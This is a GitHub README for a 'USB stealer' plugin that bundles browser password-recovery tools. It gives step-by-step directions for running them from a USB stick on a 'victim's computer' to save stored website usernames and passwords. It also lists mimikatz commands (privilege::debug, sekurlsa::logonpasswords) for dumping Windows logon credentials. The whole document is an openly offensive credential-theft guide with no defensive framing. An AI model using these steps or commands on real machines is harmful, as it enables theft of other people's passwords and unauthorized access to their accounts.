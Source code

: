 # WebBrowserPassView-plugin
![webbrowserpassview-icon](https://user-images.githubusercontent.com/43011806/46359326-b0865d80-c671-11e8-85b7-043be5353632.png)
![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)

> This plugin made for Green Force soft on your USB stealer.

> This plugin independed and can work without any library and codes!

> This plugin made for Green force USB mini.

> This is fastely way to hack passwords!

This is WebBrowserPassView:

![img_4617](https://user-images.githubusercontent.com/43011806/46586686-9f32bc00-ca8a-11e8-8288-399ca15d9aba.JPG)

This is ChromeBrowserPassView (this is WebBrowserPassView but only for Chrome browser):

![chromepass_37622](https://user-images.githubusercontent.com/43011806/46678213-cdc8a800-cbec-11e8-9e4a-2ca14d99a217.png)
![1456302849122047466](https://user-images.githubusercontent.com/43011806/46678216-cef9d500-cbec-11e8-8272-5e1775961c5b.jpg)

This is an iepv (this is WebBrowserPassView but only for Internet Explorer browser):

![iepv](https://user-images.githubusercontent.com/43011806/46815272-3d709b80-cd83-11e8-8252-74ed968b3bf3.gif)
![iepv_icon](https://user-images.githubusercontent.com/43011806/46815088-da7f0480-cd82-11e8-8aef-fb2c64d3b429.gif)

To start:

> Download files

> And put it on your Green Force USB.

(in this plugin is WebBrowserPassView programm)

How to activate this programm:

> open WebBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open ChromeBrowserPassView on victim's computer from USB and tap the button in this programm "Save selected items".

> or open iepv on victim's computer from USB and tap the button in this programm "Save selected items".

And you will have passwords and usernames from other sites!

Mimikatz_trunk this is script for hacking computer passwords:

> Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

more:

> https://github.com/entynetproject/green-force-mimikatz

And you will have user passwords!
